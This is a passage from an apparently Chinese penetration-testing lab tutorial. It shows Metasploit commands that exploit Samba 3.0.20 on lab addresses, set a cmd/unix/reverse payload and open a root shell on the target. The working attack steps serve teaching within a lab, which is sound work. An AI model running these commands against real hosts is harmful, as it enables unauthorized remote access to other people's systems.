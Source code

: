 查看攻击负荷（payload）列表，在这里 payload 用来在目标被攻陷后创建后门 Shell：

```
msf > show payloads
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430336686.png/wm)

设置 payload 为 `cmd/unix/reverse` 类型，通过 telnet 创建远程 Shell：

```
msf > set payload cmd/unix/reverse
```

查看当前的配置参数，这里会列出当前我们要使用的攻击模块和 payload 的相关参数，包括攻击的目标地址，攻击的目标端口以及后门 Shell 监听的端口号等：

```
msf > show options
```

参数列表截图：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430349262.png/wm)

补充设置参数，需要设置攻击目标和攻击机本地的 IP 地址，再次查看先前的扫描结果，Samba 3.0.20 监听在 445 端口上，所以我们需要修改攻击的端口号：

```
msf > set RHOST 192.168.122.102
msf > set LHOST 192.168.122.101
msf > set RPORT 445
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430357904.png/wm)

设置完成后再次查看配置参数：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430365432.png/wm)

### 9.4 执行攻击

执行攻击比较简单，只需要输入 `exploit` 命令就可以了：

```
msf > exploit
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430374329.png/wm)

根据输出的信息可以看出我们已经攻击成功建立并连接到了 Shell。


### 9.5 验证是否攻击成功

首先在 Shell 中输入 `whoami` 判断当前的身份，然后查看当前的主机名：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430382789.png/wm)

很高兴我们在目标主机获得了 root 权限，可以做很多的事情，比如写入一些信息到某些文件，查看某些文件的内容等等。可以发挥你的想象力尝试更多的操作。
